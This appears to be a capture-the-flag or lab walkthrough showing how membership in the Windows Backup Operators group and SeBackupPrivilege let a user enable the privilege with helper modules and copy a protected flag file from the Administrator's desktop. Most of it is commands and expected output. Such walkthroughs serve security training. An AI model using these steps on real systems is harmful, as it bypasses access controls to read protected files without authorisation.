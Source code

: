#### 2. Verify Group Membership
```cmd
# Open Command Prompt
# Check group memberships
whoami /groups

# Look for Backup Operators membership:
BUILTIN\Backup Operators                       Group S-1-5-32-551
```

#### 3. Check Privilege Status
```cmd
# Verify SeBackupPrivilege
whoami /priv

# Expected output:
SeBackupPrivilege             Back up files and directories  Disabled
SeRestorePrivilege            Restore files and directories  Disabled
```

#### 4. Enable SeBackupPrivilege
```powershell
# Open elevated PowerShell (Run as Administrator)
# Import required modules (may need to download/locate first)
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll

# Enable privilege
Set-SeBackupPrivilege

# Verify activation
Get-SeBackupPrivilege
# Should return: SeBackupPrivilege is enabled
```

#### 5. Target File Analysis
```powershell
# Attempt normal access to verify restriction
cat 'c:\Users\Administrator\Desktop\SeBackupPrivilege\flag.txt'

# Expected result:
Access to the path is denied.
```

#### 6. Bypass Restriction with SeBackupPrivilege
```powershell
# Copy protected file using SeBackupPrivilege
Copy-FileSeBackupPrivilege 'c:\Users\Administrator\Desktop\SeBackupPrivilege\flag.txt' .\flag.txt

# Expected output:
Copied [X] bytes

# Read flag content
cat .\flag.txt
# Submit the flag content
```
